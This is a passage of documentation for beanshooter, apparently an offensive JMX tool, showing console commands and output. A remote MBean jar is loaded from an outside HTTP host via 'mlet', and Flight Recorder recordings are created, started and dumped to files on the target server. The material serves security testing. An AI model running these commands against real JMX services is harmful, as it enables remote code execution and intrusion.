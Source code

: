 The example above demonstrates how the *TonkaBean* can be manually loaded using the `mlet` operation. If
you want to load a custom *MBean* instead, you need to specify the keyword `custom` instead of `tonka` and supply
the `--class-name`, `--object-name` and `--jar-file` options:

```console
[qtc@devbox ~]$ beanshooter mlet load 172.17.0.2 9010 custom http://172.17.0.1:8000 --class-name de.qtc.beanshooter.ExampleBean --object-name ExampleBean:name=ExampleBean,id=1 --jar-file www/example.jar
[+] Starting MBean deployment.
[+] ...
[+] MBean was loaded successfully.
```


### Recoder

---

The *FlightRecorderMXBean* provides an interface for managing the *Flight Recorder*
and supports some methods that are interesting from an offensive prespective.

#### Recoder new

The `new` operation starts a new recording. The returned recording ID can be used as a target
for other operations:

```console
[qtc@devbox ~]$ beanshooter recorder new 172.17.0.2 1090
[+] Requesting new recording on the MBeanServer.
[+] New recording created successfully with ID: 1
```

#### Recoder start

The `start` action starts an already existing recording and expects the recording ID as an additional argument:

```console
[qtc@devbox ~]$ beanshooter recorder start 172.17.0.2 1090 1
[+] Recording with ID 1 started successfully.
```

#### Recoder dump

While an recording is active, its contents can be dumped using the `dump` action. This stores the recording
information in a dump file on the *JMX server*:

```console
[qtc@devbox ~]$ beanshooter recorder dump 172.17.0.2 1090 1 /tmp/dump.dat
[+] Recording with ID 1 was successfully dumped to /tmp/dump.dat
```

#### Recorder stop

